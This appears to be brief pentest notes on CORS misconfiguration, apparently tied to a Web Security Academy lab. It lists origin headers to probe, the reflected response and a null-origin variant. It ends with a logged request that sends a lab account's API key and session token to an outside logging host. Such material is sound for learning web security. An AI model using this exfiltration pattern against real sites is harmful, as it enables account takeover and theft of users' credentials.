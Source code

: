 <h1>CORS Misconfiguration</h1>
<h3>Impact:</h3>
<p>Api token, email, password, and other types of sensitive data exposure, could lead in account takeover.</p>
<4>Headers to test:</4>
<hr>
<code>Origin: https://example.com</code>
o
<code>Origin: http://example.com</code>

<p>Response:</p>
<code>Access-Control-Allow-Origin: https://example.com</code>

Origin: https://store.ac8b1f971f3a924fc04d162000e40010.web-security-academy.net
Access-Control-Allow-Origin: https://store.ac8b1f971f3a924fc04d162000e40010.web-security-academy.net

<p>CORS vulnerability with trusted null origin</p>
<p>-Go to console.log, and you must see:</p>
<p>https://angeljuanma.github.io/log?key={ "username": "wiener", "email": "", "apikey": "ILmCsS4WvD12NbFLxkHaUt7PnL3cFDzU", "sessions": [ "mWXTjX7lmBUZlRJ9TPWqfN7FxBggUFKg" ] }</p>

<p>This will store the accout detail.</p>
